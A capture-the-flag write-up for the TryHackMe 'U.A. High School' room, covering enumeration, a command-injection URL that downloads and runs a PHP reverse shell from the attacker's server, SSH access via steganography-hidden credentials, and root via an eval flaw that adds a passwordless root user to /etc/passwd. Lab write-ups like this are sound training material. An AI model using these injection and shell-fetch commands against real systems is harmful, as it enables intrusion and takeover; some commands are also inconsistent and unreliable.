# [Tryhackme:U.A. High School](https://tryhackme.com/room/yueiua)
## Enumeration
Discover open ports on target machine
```bash
sudo nmap -Pn -T4 <target>
```

**Result**



result shows there is http server and open SSH port, first checking for version disclosure vulnerabilities. 

```bash
sudo nmap -p22,80 -sC -sV <target> -oN file.txt
```



**Both** services have up-dated version, So. I will do more discovering for HTTP server.

- **Directory enumeration**
```bash
gobuster dir -u "<target>" -w <wordlist>
```



inside this directory there is `/images` directory.



Fuzzing those directories files extension

```bash
gobuster dir -u "<target>/assets" -w <wordlist> -t 64 -x $(cat <common extensions file>)
```



`./.php` is prohibited but `/index.php` is working will. and also URL is vulnerable to Command injection.




**After some recon** I found that if we use this payload it shows us that we can we can write inside `/tmp` directory

```url
http://10.113.185.248/assets/index.php?cmd=cd /tmp;touch test;ls -l
```

So we can install reverse shell inside target machine to gain initial access.

---
## Initial Access 

1) **Create payload**
I used [pentest monkey php reverse shell](https://github.com/pentestmonkey/php-reverse-shell) "Don't forget to change LHOST and LPORT " then save it inside attacking machine.

2) **establish local http server and listener** to install shell inside target machine with `wget` or `curl`. then catch the reverse shell.

```bash
python3 -m http.server <port> #httpserver
nc -lnvp <AnotherPort> # listner
```

3) **Inject URL with payload**

```
http://10.113.185.248/assets/index.php?cmd=wget http://<attackingIP>:PORT/revshell.php; chmod 777 revshell.php; php revshell.php
```

Now we got shell 



--- 
## PrivEsc
### Enumeration

There is file called passphrase.txt inside `/var/www/Hidden_Content`



this file have decoded *base64* text inside it we can decode it 



Continuo to enumeration I found inside `/var/www/assets/images` images called `oneforall.jpg` in CTFs we can not trust any image because it may be steganography challenge.

downloading the image



if we check file we can figure out that this file is data not photo as extension indicates.



After that I'll open image inside `hexeditor oenforall.jpg` and change [magic bytes](if we check file we can figure out that this file is data not photo as extension indicates ) to jpeg bytes



No we can use `passphrase` we got above to decompress this `jpg`  data



and Bingo! we got credentials for the user Deku. Using this credentials to login via SSH



#### User flag



### Enumeration
Using [LinPEAS](https://linpeas.org/) to enumeration, found this file  `/opt/NewContent/feedback.sh` this file contain bash script. and this bash script have `eval` function that if we replace `$feedback` variable with anything we can print it inside any file because this file run with root privileges.



we can abuse `echo` to add root user to `/etc/passwd` using this command

```bash
# input 
imroot::0:0::/tmp/hacked:/bin/bash >> /etc/passwd
# su iamroot
su iamroot
```



#### root flag



